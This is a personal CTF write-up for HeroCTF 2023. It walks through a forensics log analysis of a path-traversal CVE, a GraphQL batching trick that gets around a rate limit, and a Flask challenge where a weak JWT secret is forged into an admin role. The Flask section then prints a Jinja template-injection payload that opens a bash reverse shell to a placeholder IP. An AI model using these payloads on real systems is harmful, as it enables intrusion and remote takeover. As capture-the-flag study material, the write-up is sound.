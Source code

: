 ```yaml
---
title: "HeroCTF"
date: 2023-05-12
categories: [CTF, Writeup]
tags: [Web, Forensics]
description: These are the writeups for the n00bzCTF 2023. I participated ended up at
             place 685/1085.
pin: false
math: false
mermaid: true
#image:
#  path: /assets/img/posts/htb-machine-name/banner.png
#  alt: "HTB Machine Banner"
#  width: 800
#  height: 400
---
```


> **HeroCTF 2023 - Writeup**  
> Place: 685/1085

---


## Forensics
### dev.corp 1/4
>The famous company dev.corp was hack last week..
>They don't understand because they have followed the security standards 
>to avoid this kind of situation.
>You are mandated to help them understand the attack.
>For this first step, you're given the logs of the webserver of the 
>company.

>Could you find: 
>- The CVE used by the attacker ?
>- What is the absolute path of the most sensitive file recovered by the 
>attacker ?


For this challenge we are given a access.log file. This are the logs of 
a webserver. Our goal is to find 
which CVE the attacker used and whats the most sesitive file he 
recovered.
I tried to find some useful information in the file, like the /etc/
passwd file. We can see, that a path traverlsal has been exploitet. 

![corp 1](/assets/img/HeroCTF/de.corp_1.png)


A Quick research of "dublicator_download", I found the corresponding 
CVE: `CVE-2020-11738`
After some more research on the access.log file, I found that the 
attacker wanted the id_rsa_backup file.
So we get the Flag:

FLAG: `Hero{CVE-2020-11738:/home/webuser/.ssh/id_rsa_backup}`

---

## Web
### Best Schools
>An anonymous company has decided to publish a ranking of the best 
>schools,and it is based on the number of clicks on a button! Make sure 
>you get the 'Flag CyberSecurity School' in first place and you'll get 
>your reward!


We are give with a website were we can vote for different kinds of 
schools. Because of the description we know that we need to get the 
'Flag CyberSecurity School' in th first place to get 
the Flag. But if we try to increase the votes we can only send one 
request per minute. So it would take a while to get the flag like this.

![school 1](/assets/img/HeroCTF/best_school_1.png)
![school 2](/assets/img/HeroCTF/best_school_2.png)

The request in brup shows that the application is based on graphql. We 
can send multiple requests in graphql, so we need to modify the HTTP 
request:

![school 3](/assets/img/HeroCTF/best_school_3.png)
                                        
No we just need to send enough votes to get the Cyber Flag School in 
first place and we get the flag.


FLAG: `Hero{gr4phql_b4tch1ng_t0_byp4ss_r4t3_l1m1t_!!}`

---

### Drink_from_my_Flask
>A friend of yours got into an argument with a flask developer. He tried 
>handling it himself, but he somehow 
>got his nose broken in the process... Can you put your hacker skills to 
>good use and help him out?
>You should probably be able to access the server hosting your target's 
>ast project, shouldn't you ?
>I heard is making a lost of programming mistakes...

The landing page is showing an Invalid operatin error.

![flask 1](/assets/img/HeroCTF/flask_1.png)


Executing the example from the landing page ends up with the result: 3. 
I wantet to know if there is maybe a login page, but if we try to access 
the /login page, there is anohter error.

![flask 3](/assets/img/HeroCTF/flask_3.png)


A look at the /adminPage is showing a message that we can't access this 
page, beacause we are a 'guest'.

The Site uses an JWT token. Decode that cookie we see the following:

![flask 4](/assets/img/HeroCTF/flask_4.png)


The role 'guest' is embedded in the token.
It's also using HS256 algorithm, which is symmetric. So we could try to 
bruteforce the key.

![flask 5](/assets/img/HeroCTF/flask_5.png)

The key is week enough and is "key". Now we can change the token to get 
the role admin assigned.

![flask 6](/assets/img/HeroCTF/flask_6.png)

We are now the admin user, but we can't do anything... But it seems that 
the role is reflected on the admin page, so let's try another payload.
Modify the JWT token to the role {% raw %}`{{7*7}}`{% endraw %}
and see if the code is 
executed.
                    
![flask 7](/assets/img/HeroCTF/flask_7.png)                

It works! So let's try to get a reverse shell on the server with the 
following payload embedded in the JWT token: 

{% raw %}
```text
{{cycler.__init__.globals__.os.popen('bash -c \"basb -i >& /dev/tcp/your_ip/999 0>&1\"').read()}}`
````
{% endraw %}

and we should be able to get the falg.

FLAG: `Hero{sst1_fl4v0ur3d_c00k1e}`